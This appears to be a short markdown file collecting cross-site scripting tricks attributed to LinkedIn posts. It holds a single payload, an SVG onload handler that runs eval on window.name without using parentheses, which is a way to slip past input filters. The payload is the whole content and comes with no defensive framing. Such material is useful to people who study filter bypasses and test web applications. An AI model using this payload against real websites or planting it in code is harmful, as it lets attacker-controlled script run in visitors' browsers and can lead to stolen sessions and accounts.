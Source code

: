 # Zlatko XSS Posts from LinkedIn

## XSS without paranthesis
```<svg onload="{hello:window . name instanceof{[Symbol.hasInstance]:eval}}">```
